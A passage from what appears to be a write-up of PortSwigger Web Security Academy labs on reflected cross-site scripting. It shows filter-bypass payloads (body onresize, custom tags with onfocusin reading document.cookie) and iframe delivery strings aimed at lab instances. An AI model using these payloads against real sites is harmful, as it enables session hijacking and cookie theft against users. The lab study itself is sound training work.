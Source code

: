 `<body(...)>` seems to pass the blacklist and is a known XSS vector

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-XSS-Protection: 0
Connection: close
Content-Length: 26

"Attribute is not allowed"
```

Now we need to do the same for attributes:

`GET /?search=<body §§>` in Intruder where `§§` is our injection point.

`onresize` seems to be accepted and can be combined with `body` to create a payload:

```
<body onresize="alert(1)">
```

All there is left to do is deliver the payload to the victim. It has to be interaction-free to pass the lab.

The user will load an iframe containing our rXSS payload which we will then proceed to trigger the `onresize` event by changing its style.

`<iframe src={lab instance url}/?search={URL encoded payload} onload=this.style.width='100px'>`

**Solution**

```
<iframe src=https://ac1d1f931e6c53d0c0024e0200d10019.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E onload=this.style.width='100px'>
```

### Lab 14 - Reflected XSS into HTML context with all tags blocked except custom ones

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

Similar to previous lab except only **custom tags** are allowed.

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onfocus

We can trigger a XSS with the **onfocus(in|out)** event handler.

Once again, we deliver it our payload to the victim with an **iframe** that will execute Javascript to focus on the `<div>` upon loading.

```
<iframe src={lab instance url}/?search={URL encoded payload}#xss>
```

Payload:

```
<xss id=xss tabindex=1 onfocusin=alert(document.cookie)></xss>
```
